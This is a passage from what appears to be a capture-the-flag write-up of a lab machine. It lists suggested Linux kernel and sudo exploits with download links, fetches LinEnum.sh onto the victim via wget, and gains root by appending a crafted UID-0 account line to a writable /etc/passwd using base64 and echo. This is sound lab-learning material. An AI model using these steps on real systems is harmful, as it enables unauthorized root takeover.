Details: [https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)
Tags: RHEL=5|6|7,debian=7|8,ubuntu=16.10|16.04|14.04|12.04
Download URL: [https://www.exploit-db.com/download/40616](https://www.exploit-db.com/download/40616)

[+] [CVE-2016–8655] chocobo_root
Details: [http://www.openwall.com/lists/oss-security/2016/12/06/1](http://www.openwall.com/lists/oss-security/2016/12/06/1)
Tags: ubuntu=16.04|14.04
Download URL: [https://www.exploit-db.com/download/40871](https://www.exploit-db.com/download/40871)

[+] [CVE-2016–9793] SO_{SND|RCV}BUFFORCEDetails: [https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793](https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793)
Download URL: [https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c](https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c)
Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included

[+] [CVE-2017–6074] dccp
Details: [http://www.openwall.com/lists/oss-security/2017/02/22/3](http://www.openwall.com/lists/oss-security/2017/02/22/3)
Tags: ubuntu=16.04
Download URL: [https://www.exploit-db.com/download/41458](https://www.exploit-db.com/download/41458)
Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2017–7308] af_packet
Details: [https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)
Tags: ubuntu=16.04(kernel:4.8.0–41)
Download URL: [https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c](https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c)
Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2017–1000112] NETIF_F_UFO
Details: [http://www.openwall.com/lists/oss-security/2017/08/13/1](http://www.openwall.com/lists/oss-security/2017/08/13/1)
Tags: ubuntu=14.04(kernel:4.4.0-*)|16.04(kernel:4.8.0-*)
Download URL: [https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c](https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c)
Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included

[+] [CVE-2017–1000253] PIE_stack_corruption
Details: [https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt](https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt)
Tags: RHEL=7(kernel:3.10)
Download URL: [https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c](https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c)

[+] [CVE-2009–1185] udev
Details: [https://www.exploit-db.com/exploits/8572/](https://www.exploit-db.com/exploits/8572/)
Tags: ubuntu=8.10|9.04
Download URL: [https://www.exploit-db.com/download/8572](https://www.exploit-db.com/download/8572)
Comments: Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed
[+] [CVE-2009–1185] udev 2
Details: [https://www.exploit-db.com/exploits/8478/](https://www.exploit-db.com/exploits/8478/)
Download URL: [https://www.exploit-db.com/download/8478](https://www.exploit-db.com/download/8478)
Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2017–1000367] Sudoer-to-root
Details: [https://www.sudo.ws/alerts/linux_tty.html](https://www.sudo.ws/alerts/linux_tty.html)
Tags: RHEL=7(sudo:1.8.6p7)
Download URL: [https://www.qualys.com/2017/05/30/cve-2017-1000367/linux_sudo_cve-2017-1000367.c](https://www.qualys.com/2017/05/30/cve-2017-1000367/linux_sudo_cve-2017-1000367.c)
Comments: Needs to be sudoer. Works only on SELinux enabled systems

[+] [CVE-2017–1000367] sudopwn
Details: [https://www.sudo.ws/alerts/linux_tty.html](https://www.sudo.ws/alerts/linux_tty.html)
Download URL: [https://raw.githubusercontent.com/c0d3z3r0/sudo-CVE-2017-1000367/master/sudopwn.c](https://raw.githubusercontent.com/c0d3z3r0/sudo-CVE-2017-1000367/master/sudopwn.c)
Comments: Needs to be sudoer. Works only on SELinux enabled systems
```

Again we have a bunch of possible exploits but I’m not done enumerating, I’m going to upload LinEnum.sh to enumerate the entire system. I started a python HTTP server listening on port 8080 on my local machine

```
root@kali:~/Downloads/LinEnum# ls
CHANGELOG.md CONTRIBUTORS.md LinEnum.sh README.md
root@kali:~/Downloads/LinEnum# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 …
```

and downloaded the LinEnum.sh file into the temp folder of the victim.

```
www-data@apocalyst:/tmp$ wget [http://10.10.14.122:8080/LinEnum.sh](http://10.10.14.122:8080/LinEnum.sh)
wget [http://10.10.14.122:8080/LinEnum.sh](http://10.10.14.122:8080/LinEnum.sh)
 — 2017–11–23 23:53:22 —  [http://10.10.14.122:8080/LinEnum.sh](http://10.10.14.122:8080/LinEnum.sh)
Connecting to 10.10.14.122:8080… connected.
HTTP request sent, awaiting response… 200 OK
Length: 43283 (42K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh 100%[===================>] 42.27K 169KB/s in 0.2s

2017–11–23 23:53:23 (169 KB/s) — ‘LinEnum.sh’ saved [43283/43283]

www-data@apocalyst:/tmp$ ls -la
ls -la
total 152
drwxrwxrwt 10 root root 4096 Nov 23 23:53 .
drwxr-xr-x 23 root root 4096 Jul 26 12:37 ..
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .ICE-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .Test-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .X11-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .XIM-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .font-unix
-rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:49 ItyhsHrJBV
-rw-rw-rw- 1 www-data www-data 43283 Nov 23 23:52 LinEnum.sh
-rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:48 TxFbxalONx
-rwxr-xr-x 1 www-data www-data 207 Nov 23 19:49 czDNtfLuLg
-rwxr-xr-x 1 www-data www-data 1879 Nov 23 19:48 gAaiSQXKTW
-rwxr-xr-x 1 www-data www-data 43052 Nov 23 19:08 linux-exploit-suggester.sh
-rwxr-xr-x 1 www-data www-data 207 Nov 23 19:48 ljSBJYhPoF
drwx — — — 3 root root 4096 Nov 23 16:26 systemd-private-545318da7c6e44889bdb503e2414bea4-systemd-timesyncd.service-846O18
drwxrwxr-x 2 falaraki falaraki 4096 Nov 23 23:52 tmp
drwx — — — 2 root root 4096 Nov 23 16:26 vmware-root
-rwxr-xr-x 1 www-data www-data 207 Nov 23 19:48 wsbBhpkLkI
```

I gave it execute permissions and I ran the script. We get a bunch of output that I’m not going to paste here because it will make my writeup extremely long, but I found something interesting we can write to /etc/passwd

```
Can we read/write sensitive files:
-rw-rw-r — 1 root root 1637 Nov 23 23:46 /etc/passwd
-rw-r — r — 1 root root 830 Jul 27 12:06 /etc/group
-rw-r — r — 1 root root 575 Oct 22 2015 /etc/profile
-rw-r — — — 1 root shadow 1070 Jul 26 13:41 /etc/shadow
```

> -rw- is the permission of the owner of the file which is root
> -rw- is the permission that the group has over the file
> -r — is the permissions that all the other users have over the file

I used openssl to generate a password the password was HackedByKatz



The purpose of the openssl passwd command is to feed your password through a one-way hashing algorithm (`-1` outputs MD5). What that gets you is a string that's derived from your password cryptographically, but cannot be used to find your password on its own if an attacker gets their hands on the hashed version.

> The /etc/passwd contains one entry per line for each user (or user account) of the system. All fields are separated by a colon (:) symbol. Total seven fields as follows. Generally, passwd file entry looks as follows…

> Source: [https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)



1. **Username**: It is used when user logs in. It should be between 1 and 32 characters in length.

1. **Password**: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to computes the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file.

1. **User ID (UID)**: Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1–99 are reserved for other predefined accounts. Further UID 100–999 are reserved by system for administrative and system accounts/groups.

1. **Group ID (GID)**: The primary group ID (stored in /etc/group file)

1. **User ID Info**: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.

1. **Home directory**: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /

1. **Command/shell**: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

Now let’s construct a user line based on what we just learned about /etc/passwd

```
Katz:$1$pm/vHfDN$Oa.8XX4nKsoqpU2oeT3P6/:0:0:Katz:/root:/bin/bash
```

All we need to do now is add it to the /etc/passwd file but we have a problem; we can’t write to /etc/password with nano or vi…. So we need to figure out another way to write to the file.



Perhaps `echo` should work, we know that we can use >> to redirect to a file, we know that if for example we write echo “Hello World” >> file1.txt we would be creating a file with the content inside the double quotes and if we add another word with the same redirection it would append to the end of the file. We can see this action below



Now if we do > that would erase all of the content and it would only have what’s inside the double quotes.



So we don’t want to be using > when redirecting output to `/etc/passwd` But we’re going to face another problem, take a look at the following screen shot



I have created a variable which contains the string `TEST` all good right? Now if I want to display the string I assigned to the variable I have to use the \$ sign. That’s how you call variables in bash. So there’s going to be conflict when if we `echo passwd >> /etc/passwd` there won’t be errors but bash will think that `$1` and`$ pm/vHfDN$Oa.8XX4nKsoqpU2oeT3P6/` are variables and your `/etc/passwd` file will look something like this…

```
Katz::0:0:Katz:/root:/bin/bash
```

That will not allow you to login as the user Katz properly. Something that we could do to bypass this issue is to encode it in base64



Copy the base64 string to decode it but on it’s way to being decoded also redirect it to the `/etc/passwd` file like so



That’s it! our user should now be in the `/etc/passwd` and we should be able to login with `su Katz`



Got Root Flag!


